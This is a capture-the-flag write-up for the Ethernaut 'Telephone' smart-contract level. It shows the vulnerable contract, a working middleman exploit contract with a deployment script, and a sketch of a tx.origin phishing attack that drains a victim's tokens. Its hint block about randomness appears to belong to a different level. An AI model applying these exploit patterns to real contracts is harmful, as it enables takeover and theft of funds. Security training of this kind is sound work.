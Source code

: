 # Level 4 - Telephone ⏺

https://ethernaut.openzeppelin.com/level/3

### Level Setup

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Telephone.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
{% endcode %}

### Exploit

The contract is vulnerable because the `msg.sender` is the address that sent the transaction to interact with the contract, but this is only the final address if the transaction involved multiple contracts.

1. Create a middleman contract so that `x.origin != msg.sender`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level4.sol" %}

{% code title="src/Level4.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract TelephoneMiddleman {
    function run(address _targetContractAddress) public {
        ITelephone(_targetContractAddress).changeOwner(msg.sender);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level4.s.sol" %}

{% code title="script/Level4.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {TelephoneMiddleman} from "../src/Level4.sol";

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        TelephoneMiddleman telephoneMiddleman = new TelephoneMiddleman();
        telephoneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
{% endhint %}

### Notes

* [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
* In a simple call chain `A->B->C->D` inside `D` `msg.sender` will be `C` and `tx.origin` will be `A`.
